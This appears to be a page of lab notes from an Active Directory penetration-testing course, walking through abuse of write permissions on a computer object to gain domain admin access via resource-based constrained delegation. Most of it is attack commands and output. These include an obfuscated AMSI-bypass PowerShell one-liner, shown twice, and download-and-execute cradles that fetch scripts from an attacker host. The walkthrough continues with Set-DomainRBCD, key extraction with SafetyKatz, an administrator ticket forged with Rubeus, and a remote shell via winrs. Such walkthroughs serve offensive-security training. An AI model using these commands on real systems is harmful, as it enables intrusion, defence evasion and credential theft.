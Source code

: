 # ✍️ Find Computer in domain with Write permissions and access as Domain Admin

Let's start by using Powerview to enumerate Write permissions for a user that we have compromised. After trying from multiple users or using BloodHound we would know that the user ciadmin has Write permissions on the computer object of dcorp-mgmt ->&#x20;

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 . .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1121</p></figcaption></figure>

Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.

{% content-ref url="elevate-privileges-and-gain-a-shell.md" %}
[elevate-privileges-and-gain-a-shell.md](elevate-privileges-and-gain-a-shell.md)
{% endcontent-ref %}

Now on the shell ->

```
iex (iwr http://172.16.100.13:8787/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:8787/PowerView.ps1'))
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std613$' -Verbose
Get-DomainRBCD
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD613$
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-15112
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD613,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

Now we need the AES keys of t student VM (as we configured RBCD for it above)

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-std613$ /aes256:50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Now that the ticket is imported we can connect via winrs

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

```
winrs -r:dcorp-mgmt cmd
```
